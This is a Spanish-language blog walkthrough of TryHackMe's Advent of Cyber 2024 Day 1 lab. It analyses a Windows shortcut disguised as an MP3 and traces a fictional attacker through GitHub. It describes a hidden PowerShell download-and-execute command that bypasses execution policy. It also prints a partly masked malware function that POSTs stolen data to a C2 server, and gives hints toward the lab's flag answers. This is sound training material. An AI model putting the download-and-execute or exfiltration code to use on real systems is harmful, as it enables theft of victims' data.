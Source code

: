 ```yaml
---
title: "AoC 2024: Día 1 - Analizando archivos sospechosos 🔍"
description: "Resolvemos el reto del día 1 en el Advent of Cyber 2024 organizado por TryHackMe."
image: "/images/blog/advent-of-cyber-2024/thumbnails/day1.png"
date: "2024-12-01"
author: "xhetic"
tag: ["TryHackMe", "Principiante", "OPSEC", "Advent of Cyber"]
category: "Writeups"
featured: true
---
```


Bienvenidos al primer día del **Calendario de Adviento de Ciberseguridad 2024** de [TryHackMe](https://tryhackme.com/). Hoy nos enfrentamos a un reto que combina investigación digital y análisis de archivos sospechosos. ¿Listos para descubrir qué se oculta detrás del nombre "Glitch"? Vamos a resolverlo juntos. ¡Manos a la obra!

Room: [Advent of Cyber 2024](https://tryhackme.com/r/room/adventofcyber2024)

## 🕵️ Historia: Una amenaza oculta

**McSkidy** ha detectado una actividad sospechosa relacionada con una web que promete convertir vídeos de YouTube a MP3. Aunque parece inofensiva, hay señales de alerta que nos invitan a investigar más a fondo. Nuestra misión es descubrir qué hay detrás de esta fachada.

### 🎯 Objetivos de aprendizaje

1. Identificar archivos maliciosos vinculados a enlaces sospechosos.
2. Entender los principios de **OPSEC** y errores comunes.
3. Aprender a rastrear y atribuir identidades digitales.

---

## 🔗 Investigación del sitio web

Primero, accede al laboratorio desde tu **AttackBox**. Usa la IP asignada para abrir el sitio en el navegador. A simple vista, parece un sitio legítimo con funcionalidades prometedoras, pero no te dejes engañar.

![Sitio web](/images/blog/advent-of-cyber-2024/day1-img1.png)

### 🚩 Riesgos comunes en sitios de conversión YouTube a MP3

- **Malvertising**: Publicidad maliciosa que explota vulnerabilidades.
- **Phishing**: Trampas para obtener información sensible.
- **Malware embebido**: Archivos contaminados con software malicioso.

Nosotros investigaremos más allá. Para ello, introduce un enlace de YouTube (por ejemplo, [este clásico](https://www.youtube.com/watch?v=dQw4w9WgXcQ)) y haz clic en "Convertir".

![Sitio web](/images/blog/advent-of-cyber-2024/day1-img2.png)

---

## 🗂️ Analizando los archivos descargados

Extrae el contenido del archivo `download.zip`. Encontrarás dos archivos: `song.mp3` y `somg.mp3`. Algo no cuadra con este segundo archivo...

### 📋 Paso 1: Verificando los archivos

Abre la terminal y usa el comando `file` para analizar ambos:

```bash
file song.mp3
```

Y veremos esta respuesta

```bash
song.mp3: Audio file with ID3 version 2.3.0,
contains: MPEG ADTS, layer III, v1, 192 kbps, 44.1 kHz, Stereo
```

Este archivo parece normal. Ahora probemos con el segundo:

```bash
file somg.mp3
```

Y la respuesta obtenida es

```bash
somg.mp3: MS Windows shortcut, Item id list present, Points to a file or directory, Has Relative path, Has Working directory, Has command line arguments, Archive, 
ctime=Sat Sep 15 07:14:14 2018, mtime=Sat Sep 15 07:14:14 2018, atime=Sat Sep 15 07:14:14 2018, length=448000, window=hide
```

**🧐 Sorpresa**: ¡Es un archivo **.lnk** (acceso directo) disfrazado de MP3!


---

## 🔍 Inspección del archivo .lnk

Para investigar más a fondo, ejecuta `exiftool`:

```bash
exiftool somg.mp3
```

El resultado revela un comando **PowerShell** oculto que descarga y ejecuta un script malicioso (`IS.ps1`) desde un servidor remoto.

- **-ep Bypass -nop**: Evita restricciones de seguridad.
- **DownloadFile**: Utiliza este método para descargar el script [IS.ps1](https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1)
- **iex**: Ejecuta el script tras descargarlo.


---

## 🕵️‍♂️ Rastreando al atacante

Si analizamos por encima el script **IS.ps1** contiene la firma: **"Created by the one and only M.M."**. Vamos a buscar esta cadena en **GitHub** para ver si encontramos pistas sobre el creador.

```bash
"Created by the one and only M.M."
```

Accede al [resultado de búsqueda en GitHub](https://github.com/Bloatware-WarevilleTHM/CryptoWallet-Search/issues/7). Analiza los proyectos relacionados para obtener información sobre el atacante.

---

## 🧩 Preguntas del Reto (Flags)

Para completar este primer desafío del calendario de adviento de TryHackMe, tendrás que responder las siguientes preguntas. A continuación, te explico cómo puedes encontrar cada respuesta sin dar directamente las soluciones.


#### 1️⃣ **¿Quién es el autor de la canción (`song.mp3`)?**

💡 **Pista**: Ejecuta `exiftool song.mp3` en tu terminal. La respuesta estará en el campo `Artist`.

```cmd
T**** R******
```


#### 2️⃣ **¿Cuál es la URL del servidor C2 al que el script malicioso envía la información robada?**

💡 **Pista**: La respuesta se consigue analizando la funcion `Send-InfoToC2Server` en el script [IS.ps1](https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1).

```bash
# Function to send the stolen info to a C2 server
function Send-InfoToC2Server {
    $c2Url = "****://*********.***/****"
    $data = Get-Content -Path $infoFilePath -Raw

    # Using Invoke-WebRequest to send data to the C2 server
    Invoke-WebRequest -Uri $c2Url -Method Post -Body $data
}
```


#### 3️⃣ **¿Quién es M.M?**

💡 **Pista**: Busca el [repositorio](https://github.com/JoshuaFerando/Mayor-Malware) coincidente con la firma **"Created by the one and only M.M."** en GitHub usando la barra de búsqueda.

```bash
🦹‍♂️ Hi, I’m M.M, also known as M**** M******. I run things in Wareville Town.
```


#### 4️⃣ **¿Cuántos commits tiene el repositorio donde se reportó el problema?**

💡 **Pista**: Una vez encuentrado el [repositorio del script donde la incidencia se produjo](https://github.com/Bloatware-WarevilleTHM/CryptoWallet-Search) , dirígete a la pestaña **"Commits"**. Allí podrás ver el número exacto de commits realizados.

```bash
* Commits
```

---

## 📝 Conclusión

Este ejercicio nos ha permitido desentrañar cómo un simple archivo puede convertirse en una amenaza seria. Hemos practicado análisis de archivos, investigación OSINT y rastreo de identidades digitales. ¿Has descubierto quién es "Glitch"? ¡Comparte tus resultados en los comentarios!

---

**⚠️ Nota**: Recuerda que este laboratorio es educativo. No intentes ejecutar estos comandos en entornos reales sin las precauciones adecuadas.
